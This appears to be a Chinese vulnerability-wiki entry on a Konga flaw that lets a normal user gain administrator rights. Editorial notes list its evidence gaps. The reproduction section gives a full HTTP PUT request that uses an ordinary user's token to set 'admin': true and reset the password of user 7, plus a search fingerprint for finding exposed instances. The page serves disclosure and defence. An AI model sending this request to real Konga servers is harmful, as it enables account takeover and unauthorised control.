


# Konga 普通用户越权获取管理员权限漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：有效普通用户token及相应用户ID
- 证据范围：与405同文/同截图，只版式和来源不同，应合并。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 版本字段仅产品名，缺受影响/修复版本
- 硬编码用户7并改密码，缺ID归属说明与恢复步骤
- 固定Content-Length与占位token不匹配；无原始披露链接

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## 网络测绘

```
"konga"
```

## 漏洞复现

登录页面


创建非管理员用户后登录并获取token


发送请求包, 将token修改为刚刚获取的


```http
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```





成功转为管理员用户




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
